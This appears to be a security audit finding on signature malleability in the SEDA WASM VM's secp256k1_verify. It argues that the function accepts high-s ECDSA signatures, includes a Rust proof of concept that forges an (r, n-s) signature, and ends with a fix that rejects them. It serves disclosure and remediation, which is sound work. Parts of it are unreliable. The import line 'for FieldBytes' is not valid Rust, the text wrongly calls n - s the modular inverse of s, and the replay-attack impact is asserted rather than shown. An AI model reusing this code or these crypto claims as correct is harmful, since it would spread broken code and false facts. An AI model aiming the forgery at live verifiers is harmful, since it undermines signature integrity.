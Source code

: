 Gorgeous Shadow Locust

High

# Signature Malleability in secp256k1_verify (WASM VM)



## **Summary**  
The secp256k1_verify function in the SEDA WASM VM doesn't add canonical signature encoding for ECDSA signatures allowing attacker to exploit signature malleability. This enable replay attack undermining the integrity of cryptographic verification in data requests and tallying processes.  

https://github.com/SedaProtocol/seda-wasm-vm/blob/main/runtime/core/src/core_vm_imports/secp256_k1.rs#L31  
  
   https://github.com/SedaProtocol/seda-wasm-vm/blob/main/runtime/core/src/core_vm_imports/secp256_k1.rs#L45 


## Impact
1. Attackers can submit multiple valid signatures for the same message.  
2. Even malleable signatures bypass the uniqueness check.  
  

## **Vulnerability Detail**
The signature is parsed into (r, s) components using Signature::from_slice which doesn't add canonical `s` values (s ≤ n/2 where `n` is the secp256k1 curve order).  
```rust
   let signature_obj = Signature::from_slice(&signature)?; // u see no check for high-s
```  

Then the public key is parsed through the VerifyingKey::from_sec1_bytes which validate that the key is a valid SEC1-encoded point on the secp256k1 curve.  
```rust
   let public_key_obj = VerifyingKey::from_sec1_bytes(&public_key)?; // validate public key
```  

The verify_prehash method will check the signature against the hashed message but till accept both `s` and `n - s` values.  
```rust
   public_key_obj.verify_prehash(&hashed_message, &signature_obj).is_ok().into()
```  
The problem is that the ECDSA will permit two valid signatures for the same message and key: `(r, s)` and `(r, n - s)` and rhe code does not add s ≤ n/2 allowing non-unique signatures.  


## Proof of Concept (PoC) 
**Attack Workflow**
1. A user sign a message (data request) with their private key, generating a valid signature `(r, s)`.  

2. Then an attacker take the valid signature and compute `s = n - s` which is the modular inverse of `s` relative to the curve order) creating a second valid signature `(r, s')` for the same message and public key.  

3. The attacker submit the malleated signature `(r, s')` to the secp256k1_verify function. it parse the signature and verify it as valid because the verify_prehash does not check if `s` is in the canonical range.  

4. so for the outcome the both `(r, s)` and `(r, s')` are treated as unique valid signatures for the same transaction enabling replay attacks

## Coded POC
```rust 
use k256::{
    ecdsa::{signature::hazmat::PrehashVerifier, Signature, SigningKey, VerifyingKey},
    elliptic_curve::{sec1::ToEncodedPoint, for FieldBytes},
    Scalar,
};
use sha3::{Digest, Keccak256};

fn main() {
    // generate a valid ECDSA key pair
    let signing_key = SigningKey::random(&mut rand::thread_rng());
    let verifying_key = VerifyingKey::from(&signing_key);

    // create the message and compute the Keccak256 hash
    let message = b"Hello, SEDA!";
    let hashed_message = Keccak256::digest(message);

    // generate a valid signature (low-s)
    let (mut valid_sig, _) = signing_key
        .sign_prehash_recoverable(&hashed_message)
        .unwrap();

    // then extract the raw (r, s) components
    let r = valid_sig.r();
    let s = valid_sig.s();

    // so cmpute the malleated s' = n - s (high-s)
    let n = k256::Secp256k1::ORDER;
    let s_prime = n - s;

    // and manually construct the non-canonical signature (bypass k256's normalization)
    let malleated_sig_bytes = [r.to_bytes().as_slice(), s_prime.to_bytes().as_slice()].concat();
    let malleated_sig = Signature::from_slice(&malleated_sig_bytes).unwrap();

    // finally, verify both the signatures
    let verify_valid = verifying_key
        .verify_prehash(&hashed_message, &valid_sig)
        .is_ok();
    let verify_malleated = verifying_key
        .verify_prehash(&hashed_message, &malleated_sig)
        .is_ok();

    // 8. Output result is 
    // println!("Original Signature (low-s): {:?}", valid_sig.to_bytes().as_slice());
    // println!("Malleated Signature (high-s): {:?}", malleated_sig.to_bytes().as_slice());
    println!("Valid Signature Accepted: {}", verify_valid); // true
    println!("Malleated Signature Accepted: {}", verify_malleated); // true (desmonstrating the vulnerability)
}
```

## **Output**  
```plaintext
Valid Signature Accepted: true
Malleated Signature Accepted: true
```  



 
   
  

## **Recommendation**  
1. Add a check to reject signatures with `s > n/2`:  
```rust
   let signature_obj = Signature::from_slice(&signature)
       .map_err(|_| RuntimeError::VmHostError("Invalid signature".into()))?;

   // reject high-s signatures
   if signature_obj.s().is_high().into() {
       return Ok(0); // to be invalid
   }
```  


